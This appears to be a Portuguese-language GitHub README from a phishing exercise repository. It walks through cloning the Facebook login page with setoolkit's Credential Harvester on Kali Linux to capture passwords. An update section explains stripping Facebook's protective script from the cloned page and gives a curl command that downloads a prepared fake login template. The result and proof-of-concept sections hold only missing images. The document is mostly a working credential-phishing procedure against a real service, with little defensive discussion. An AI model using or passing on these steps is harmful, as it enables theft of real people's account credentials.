









# Phishing para captura de senhas do Facebook

### Ferramentas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: http://www.facebook.com

### Resutados


### Prova de conceito


# Atualização

Devido a CORS e segurança do facebook ao usar o ```setoolkit``` para clona a login page, acaba que ele referencia na index.html o script que contém a proteção.

Para resolver este problema localizei o index.html clonado e removi o script.

Você pode remover também em ```/root/.set/web_clone/index.html```

Caso queira fazer da forma fácil, siga os passos abaixo:

- Crie um diretorio de nome tool no home
```mkdir /home/tool/```
- Acesse este diretorio cd /home/tool/
- Baixe o login page do facebook com wget ou curl
```curl https://raw.githubusercontent.com/percioandrade/cibersecurity-desafio-phishing/refs/heads/master/facebook_login_template.html > index.html```
- Acesse o setoolkit e siga a sequencia de imagens abaixo:















